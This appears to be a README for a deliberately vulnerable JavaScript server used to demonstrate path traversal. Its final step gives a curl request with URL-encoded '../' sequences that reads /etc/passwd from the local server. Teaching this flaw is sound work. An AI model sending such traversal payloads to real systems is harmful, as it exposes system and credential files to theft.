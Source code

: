 # Vulnerable server in JavaScript
## 1- Run the server:
`$ node main.js`
## 2- Get legal web page:
`$ curl http://127.0.0.1:8080/`
## 3- Get contents of different files in the system (illegal file access):
`curl http://127.0.0.1:8080/%2e%2e/%2e%2e/%2e%2e/%2e%2e/etc/passwd`
